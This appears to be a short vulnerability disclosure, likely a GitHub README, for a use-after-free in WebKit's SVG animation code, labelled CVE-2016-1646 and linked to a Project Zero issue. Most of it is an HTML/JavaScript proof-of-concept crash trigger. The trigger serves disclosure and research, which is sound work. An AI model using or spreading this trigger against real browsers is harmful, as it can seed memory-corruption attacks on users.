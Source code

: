 # CVE-2016-1646
* Date : June 2018
* Credit : ifratic

## Description
Use-after-free in SVGAnimateElementBase::resetAnimatedType of Webkit

## PoC
```html
<script>
function eventhandler2() {
try { var var00138 = svgvar00013.parentNode; } catch(e) { }
try { htmlvar00006.setAttribute("onfocusin", "eventhandler2()"); } catch(e) { }
try { svgvar00001.after(var00138); } catch(e) { }
}
function eventhandler5() {
try { htmlvar00028.autofocus = true; } catch(e) { }
try { htmlvar00034.appendChild(htmlvar00006); } catch(e) { }
}
</script>
<h5 id="htmlvar00006">
<keygen id="htmlvar00028">
</h5>
<a id="htmlvar00034">
<svg id="svgvar00001">
<g onload="eventhandler2()"></g>
<animate attributeName="fill" />
<polygon id="svgvar00013" />
<br>
<details ontoggle="eventhandler5()" open="true"></details>
```

## Reference
[P0 issue 1596](https://bugs.chromium.org/p/project-zero/issues/detail?id=1596)